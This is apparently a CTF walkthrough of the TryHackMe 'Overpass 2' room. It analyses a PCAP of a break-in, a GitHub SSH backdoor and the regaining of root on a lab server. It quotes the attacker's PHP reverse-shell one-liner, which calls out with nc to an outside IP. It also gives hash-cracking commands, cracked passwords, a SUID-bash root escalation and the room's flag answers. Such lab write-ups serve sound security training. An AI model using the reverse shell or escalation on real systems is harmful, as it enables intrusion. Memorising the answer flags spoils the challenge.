 # Task 1 Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing [Linux Fundamentals](https://tryhackme.com/module/linux-fundamentals) as a bare minimum.  

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

### What was the URL of the page they used to upload a reverse shell?

Looking at the PCAP we can see line 14 in Wireshark

Answer: `/development/`

### What payload did the attacker use to gain access?

The same line, copy the PHP code from wireshark

Answer: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`


### What password did the attacker use to privesc?

Walking through the pcap, we can see line 27 where the payload was triggered, and the reverse shell port being used is 4242. 

Line 76

Answer: `whenevernoteartinstant`


### How did the attacker establish persistence?

Line 121

Answer: `git clone https://github.com/NinjaJc01/ssh-backdoor`

### Using the fasttrack wordlist, how many of the system passwords were crackable?


Line 112 and line 114 we see shadow file being dumped

Use John
`john --format=sha512crypt --wordlist fasttrack.txt password`

Answer: `2`


# Task 2 Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

### What's the default hash for the backdoor?

Look at the github code
Line 19 var hash string
Answer: `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

### What's the hardcoded salt for the backdoor?

Line 168

Answer: `1c362db832f3f864c8c2fe05f2002a05`

### What was the hash that the attacker used? - go back to the PCAP for this!


Pcap line 3479

Answer: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`
### Crack the hash using rockyou and a cracking tool of your choice. What's the password?

Looking at the hint`It's salted, so make sure you use the correct mode. This also means crackstation etc won't work.`

create hash.txt containing the hash:salt

`hashcat -a 0 -m 1710 hash.txt rockyou.txt`

Answer: `november16`

# Task 3 Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

# The attacker defaced the website. What message did they leave as a heading?

Look at the target IP in a browser

Answer: `H4ck3d by CooctusClan`

SSH port 2222 using the password revealed in task 2
`ssh james@10.10.64.146 -p 2222 -oHostKeyAlgorithms=+ssh-rsa`

Answer: `thm{d119b4fa8c497ddb0525f7ad200e6567}`

### What's the root flag?

Tried to sudo, failed authentication, unable to get into root folder.  No history, no crontab
`find / -perm -u=s -type f 2>/dev/null`
shows `/home/james/.suid_bash`

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# 
```

Answer: `thm{d53b2684f169360bb9606c333873144d}`
